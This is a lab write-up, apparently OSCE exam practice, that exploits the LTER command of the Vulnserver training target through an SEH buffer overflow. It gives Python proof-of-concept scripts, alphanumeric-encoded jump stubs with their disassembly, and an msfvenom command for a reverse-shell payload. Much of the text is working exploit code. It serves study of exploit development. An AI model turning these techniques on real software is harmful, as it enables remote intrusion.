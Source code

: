 ```yaml
---
title: Vulnserver LTER SEH buffer overflow
tags: OSCE
key: 20190801
comments: true
---
```


So one day, I was preparing for OSCE, I fire up vulnserver and try to mess around with one of their vulnerable command, LTER that I discovered by spike. Little did I know, this one is much harder than I thought.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-1.png"/>

When the POC crash, we can see that EIP is not overwritten, however, if we look at the SEH chain, we can find that it got overwritten to our payload. So, this is going to be a SEH buffer overflow.

We use pattern create and !mona findmsp to get the location of nSEH and SEH

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-2.png"/>

nSEH at 3515 and SEH at 3519, looks good. However, we only get 52 bytes after that, which clearly is not enough for a reverse shell. Looks like a job for egghunter?

With the help of !mona seh, we get the address for a pop pop retn instruction.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-3.png"/>

Here, I choose 0x6250120B which I got lucky here, you will know why later.

Then, I add a jmp short to jump over the address after the redirection to nSEH and here's where the nightmare began. 
```python
#!/usr/bin/python
import socket
import sys
#6250120B
RHOST = '192.168.170.129'
RPORT = 9999
length = 5000
string = "LTER /.:/" + "\x46" * 3515
string += "\xEB\x0B\x90\x90" + "\x0B\x12\x50\x62"
string += "\x46" * (length -len(string))
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((RHOST,RPORT))
s.recv(1024)
s.send(string)
s.close()
```
<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-4.png"/>

See where our short jump should be? \xEB got converted to \x6C and \x90 got converted to \x11. Since like both of them are bad characters. That's not a big deal, I can use a conditional jump instead.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-5.png"/>

Here I use \x77 to make a conditional jump when both CF and ZF are equal 0. The jump is working quite well. Before we put our shellcode inside, lets check for bad characters.

We all knew that \xEB and \x90 are bad characters, how about the others? The truth is...

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-6.png"/>

The truth is every single bytes after \x7F got converted and we cannot use them. Not even our egghunter cause after we encode it, the size will be larger that the space we have. We will need to find some way to get more space. 

How about we jump to the middle of our payload? it's possible but we can't just put \xFF in our payload and make the jump. To solve this problem, we will redirect where our ESP is pointing at and use push to push the shellcode we need. Which result in these shellcode.
```python
#!/usr/bin/python
import socket
import sys

jump = "\x60\x54\x58\x54\x5B\x66\x05\x79\x13\x50\x5C\x25\x41\x41\x41\x41\x25\x3E\x3E\x3E\x3E\x05\x41\x41\x41\x41\x66\x05\x41\x41\x66\x05\x69\x03\x50"
jump2 = "\x53\x58\x66\x05\x62\x01\x66\x05\x62\x01\x66\x05\x62\x01\x66\x05\x62\x01\x50\x5F\x04\x02\x50\x59\x66\x05\x77\x07\x66\x05\x41\x06\x50\x5C\x25\x41\x41\x41\x41\x25\x3E\x3E\x3E\x3E\x05\x41\x41\x41\x41\x66\x05\x41\x41\x66\x05\x7D\x65\x50"

RHOST = '192.168.170.129'
RPORT = 9999
length = 5000
string = "LTER /.:/" + "\x46" * 3
string += "\x53\x5C" + "\x46" * (3515-3-2-64)
string += jump2
string += "\x46" * (64-len(jump2))
string +="\x42\x42\x77\x04" + "\x0B\x12\x50\x62"
string += jump
string += "\x46" *(length - len(string))
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((RHOST,RPORT))
s.recv(1024)
s.send(string)
s.close()
```
<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-7.png"/>

The first jump will redirect ESP to the end of the payload so that we can write some shellcode at the end. The distance between ESP and the end of the payload is around 0x1379 so we use eax to do the calculation and ebx to store the original value of esp.

P.S. you do not need the PUSHAD, I am just lazy to recalculate all the stuff to align ESP. just minus 32 bytes if you want to get rid of the PUSHAD

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-8.png"/>

This jump help us to create more space so that we can make a further jump to our shellcode.

The second jump looks like this.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-9.png"/>

For the second jump, we are going to jump to the very beginning of our payload. To do so, we will use ebx as a reference. Since ebx is storing the original ESP location, we can calculate the distance between and add up the values. Since it is 0x588 away, we will use eax to perform the calculation and push it to esi. After that, all we need it just a jump esi and we can execute our shellcode. Then we will align ESP so that we can push our jump esi to the stack.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-10.png"/>

Now, with the second jump, we have over 3000 bytes of space to use and all we need is our encoded shellcode. Since, even x86/alpha_mixed cannot eliminate all bad character, we will use BufferRegister=ECX to state that the shellcode start at the absolute address of ECX. I did try with ESP but it just doesn't work. Before, I execute the shellcode, I also restore the original ESP address that we stored in EBX to avoid any error during the reverse shell with a push EBX and pop ESP. That's the reason why I will add eax by 2 bytes to push it to ECX, cause the shellcode need to reference the begin at where ECX is pointing at. 

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-11.png"/>

The shellcode is pointing at our reverse shell shellcode and if we hit run, we will get our reverse shell!!

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-12.png"/>

And the final POC
```python
#!/usr/bin/python
import socket
import sys

#6250120B pop pop retn
#msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/alpha_mixed -b '\x00\x0A\x0D' BufferRegister=ECX -f c 

jump = ("\x60\x54\x58\x54\x5B\x66\x05\x79\x13"
"\x50\x5C\x25\x41\x41\x41\x41\x25\x3E"
"\x3E\x3E\x3E\x05\x41\x41\x41\x41\x66"
"\x05\x41\x41\x66\x05\x69\x03\x50")
#00000000  60                pusha
#00000001  54                push esp
#00000002  58                pop eax
#00000003  54                push esp
#00000004  5B                pop ebx
#00000005  66057913          add ax,0x1379
#00000009  50                push eax
#0000000A  5C                pop esp
#0000000B  2541414141        and eax,0x41414141
#00000010  253E3E3E3E        and eax,0x3e3e3e3e
#00000015  0541414141        add eax,0x41414141
#0000001A  66054141          add ax,0x4141
#0000001E  66056903          add ax,0x369
#00000022  50                push eax = 0x85EB4141

jump2 = ("\x53\x58\x66\x05\x62\x01\x66\x05\x62\x01"
"\x66\x05\x62\x01\x66\x05\x62\x01\x50\x5F"
"\x04\x02\x50\x59\x66\x05\x77\x07\x66\x05"
"\x41\x06\x50\x5C\x25\x41\x41\x41\x41\x25"
"\x3E\x3E\x3E\x3E\x05\x41\x41\x41\x41\x66"
"\x05\x41\x41\x66\x05\x7D\x65\x50")
#00000000  53                push ebx
#00000001  58                pop eax
#00000002  66056201          add ax,0x162
#00000006  66056201          add ax,0x162
#0000000A  66056201          add ax,0x162
#0000000E  66056201          add ax,0x162
#00000012  50                push eax
#00000013  5F                pop edi
#00000014  0402              add al,0x2
#00000016  50                push eax
#00000017  59                pop ecx
#00000018  66057707          add ax,0x777
#0000001C  66054106          add ax,0x641
#00000020  50                push eax
#00000021  5C                pop esp
#00000022  2541414141        and eax,0x41414141
#00000027  253E3E3E3E        and eax,0x3e3e3e3e
#0000002C  0541414141        add eax,0x41414141
#00000031  66054141          add ax,0x4141
#00000035  66057D65          add ax,0x657d
#00000039  50                push eax = 0xE7FF4141

shellcode = ("Shellcode here")
RHOST = '192.168.170.129'
RPORT = 9999
length = 5000
string = "LTER /.:/" + "\x46" * 3
string += "\x53\x5C" + shellcode + "\x46" * (3515-3-2-64-len(shellcode))
string += jump2
string += "\x46" * (64-len(jump2))
string +="\x42\x42\x77\x04" 
string +="\x0B\x12\x50\x62"
string += jump
string += "\x46" *(length - len(string))
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((RHOST,RPORT))
s.recv(1024)
s.send(string)
s.close()
```